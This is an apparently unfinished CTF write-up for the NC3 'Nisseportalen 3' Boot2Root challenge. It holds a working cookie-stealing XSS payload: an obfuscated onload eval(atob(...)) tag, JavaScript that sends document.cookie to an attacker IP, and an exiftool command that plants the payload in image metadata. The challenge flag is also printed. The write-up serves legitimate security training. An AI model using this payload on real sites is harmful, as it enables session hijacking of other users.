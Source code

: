 +++
title = 'Nisseportalen 3'
categories = ['Boot2Root']
date = 2024-12-15T13:35:38+01:00
scrollToTop = true
+++

## Challenge Name:

Nisseportalen 3

## Category:

Boot2Root

## Challenge Description:

Nissernes største ønske er en portal til deling af alle deres AI-genererede billeder aka Nisseportalen. Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen.

Praktikantnissen har fået til opgave at redde Nisseportalen og få ryddet op i Nissedevs rod. Kan du hjælpe med at redde Nisseportalen og finde alle de sårbarheder, der må være, så projektet endelig kan blive gjort færdigt?

Men vær beredt, det er ikke til at sige hvad Nissedev har haft gang i...

[https://tryhackme.com/jr/nisseportalen2o24](https://tryhackme.com/jr/nisseportalen2o24)

## Approach

We pick up where we left off in [Nisseportalen 2](/nc3/boot2root/nisseportalen-2) and now have a foothold on the webapp.
We now have authenticated access to the webapp and therefore revisit all the previously identified pages!

### Enumeration

On /portal/list.php we can now see the previously identified images, in the billeder.txt file, being rendered.

![List of images](images/list.png)

Besides that we only have the /portal/upload.php page left to explore.

This is the part I spent the longest time on in the challenge, but ultimately I revisited the description, in which this phrase stood out to me:
"Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen."
This indicted to me that there might be some "previous projects" to check out"!
I started out scanning for subdomains, without any luck, but then started searching for previous NC3 CTFs and discovered that the previous year's CTF had these challenges!
https://blog.danniranderis.dk/2021/12/16/danish-christmas-ctf-2021-by-nc3-police-intermediary-dangerzone-1-4/
https://nissen96.github.io/CTF-writeups/writeups/2022/NC3-CTF-2022/Nissezonen.html

After a thorough readthrough of the writeups I understood that with the help of XSS, we might be able to steal a session cookie and log in as an admin!

In order to achieve this, we need to Add a malicious payload to the image EXIF metadata and then upload the image to the webapp!

```bash
<img src='http://10.10.131.239:1337/hacked.jpg' oNlOaD="eval(atob('base64 encodeded payload here'))">
```

With the base64 encoded malicious payload:

```bash
var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';
var my_endpoint = 'http://10.10.131.239:1337/cookie/' + cookies + '.jpg';
var my_img = '<img src=' + my_endpoint + '>';
document.write(my_img);
```

We can then use exiftool to add the payload to the image EXIF metadata

```bash
echo "var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing'; var my_endpoint = 'http://10.10.131.239:1337/cookie/' + cookies + '.jpg'; var my_img = '<img src=' + my_endpoint + '>'; document.write(my_img);" | base64

exiftool -comment="<img src='http://10.10.131.239:1337/1.jpg' oNlOaD=\"eval(atob('dmFyIGNvb2tpZXMgPSBkb2N1bWVudC5jb29raWUgPyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSA6ICdub3RoaW5nJzsgdmFyIG15X2VuZHBvaW50ID0gJ2h0dHA6Ly8xMC4xMC4xMzEuMjM5OjEzMzcvY29va2llLycgKyBjb29raWVICsgJy5qcGcnOyB2YXIgbXlfaW1nID0gJzxpbWcgc3JjPScgKyBteV9lbmRwb2ludCArICc+JzsgZG9jdW1lbnQud3JpdGUobXlfaW1nKTsK'))\">" hacked.jpg
```

### Exploitation

### Getting foothold on the webapp

### Getting third flag

Thanks to "" we can submit the third flag and move on to [Nisseportalen 4](/nc3/boot2root/nisseportalen-4)!

## Flag

```text
NC3{Flag3:N1553D3v_5yn32 DU_F0r7j3N3R_37_fl49}
```

## Reflections and Learnings
